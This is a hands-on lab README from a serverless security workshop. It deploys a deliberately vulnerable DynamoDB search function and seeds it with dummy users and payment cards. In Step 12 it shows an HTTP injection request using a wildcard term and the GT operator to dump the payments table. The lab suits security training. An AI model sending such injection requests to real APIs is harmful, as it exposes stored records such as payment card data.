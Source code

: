 # DynamoDB Injection

This attack/payload has been documented [here](https://medium.com/appsecengineer/dynamodb-injection-1db99c2454ac) article.

On reading, you'll see that its a NoSQL Injection attack that's predicated on using the `gt` operator. One of the main reasons that this attack is made possible, is because of badly configured IAM privileges

**Note:** If you have not setup your aws cli follow [AWS-CLI-Configuration](aws-configure/README.md) under the `Setup` section*


* Step 1: In your image, navigate over to `/root/labs/Serverless-Workshop/`

```commandline
cd /root/labs/Serverless-Workshop/
```

* Step 2: Run `pip3 install pipenv`

```commandline
pip3 install pipenv
```

* Step 3: `pipenv shell`

```commandline
pipenv shell
``` 

```commandline
pipenv install boto3
``` 

```commandline
pipenv install faker
``` 

```commandline
pipenv install huepy
``` 

* Step 4: In your image, navigate over to `/root/labs/Serverless-Workshop/DynamoDB-Injection`

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection
```

* Step 5: Run `sls plugin install -n serverless-python-requirements`

```commandline
sls plugin install -n serverless-python-requirements
```

* Wait for instructor to explain the contents of the lab

* Step 6: Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/DynamoDB-Injection/serverless.yml)

* Step 7: Deploy the function with the command `sls deploy`

```commandline
sls deploy
```

* Wait for the function to deploy completely 


* Step 8: In your image, navigate over to `/root/labs/Serverless-Workshop/DynamoDB-Injection/ops`

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection/ops
```

* Step 9: Create dummy users `python create_dummies.py users we45-sls-users`

```commandline
python create_dummies.py users we45-sls-users
```

* Step 10: Create dummy payment cards `python create_dummies.py cards we45-sls-payments`

```commandline
python create_dummies.py cards we45-sls-payments
```


* Step 11: Let's now run a genuine search against the database with this command

```commandline

http POST <https://xxxx.execute-api.us-east-1.amazonaws.com/dev/dynamo-search> db=we45-sls-users search_term=Mark search_operator=EQ search_field=first_name

```

* Replace the `URL` from **Step 7**

* Step 12: Now let's run the exploit

```commandline

http POST <https://xxxx.execute-api.us-east-1.amazonaws.com/dev/dynamo-search> db=we45-sls-payments search_term="*" search_operator=GT search_field=payment-card

```

* Replace the `URL` from **Step 7**

### Teardown

* Step 13: In your image, navigate over to `/root/labs/Serverless-Workshop/DynamoDB-Injection`

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection
```

* Step 14: Run `sls remove` to remove stack

```commandline
sls remove --force
```

* Step 15: In your image, navigate over to `/root/labs/Serverless-Workshop/`

```commandline
cd /root/labs/Serverless-Workshop/
```

* Step 16: Deactivate `pipenv` using `deactivate` command

```commandline
deactivate
```

```commandline
exit
```
